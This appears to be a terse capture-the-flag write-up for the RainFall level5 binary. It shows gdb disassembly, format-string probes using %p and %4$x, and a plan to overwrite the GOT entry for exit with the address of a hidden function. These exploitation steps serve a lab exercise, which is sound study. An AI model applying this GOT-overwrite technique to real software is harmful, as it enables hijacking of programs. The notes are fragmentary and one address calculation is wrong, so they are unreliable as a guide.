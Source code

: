 
```
(gdb) set height 30
(gdb) i func
0x080484a4  o
0x080484c2  n
0x08048504  main
```

n func calls prinft then exit
```
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```


```
level5@RainFall:~$ python -c 'print "AAAA" + " |%p| " * 20 ' | ./level5
AAAA |0x200|  |0xb7fd1ac0|  |0xb7ff37d0|  |0x41414141|

level5@RainFall:~$ python -c 'print "AAAA" + " |%4$x| " ' | ./level5
AAAA |41414141|
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
 
call o from n <===> ovveride exit (0x8049838) of by addr of o (0x080484a4)

(gdb) p 0x080484a4 - 4 = 134513824


 
 









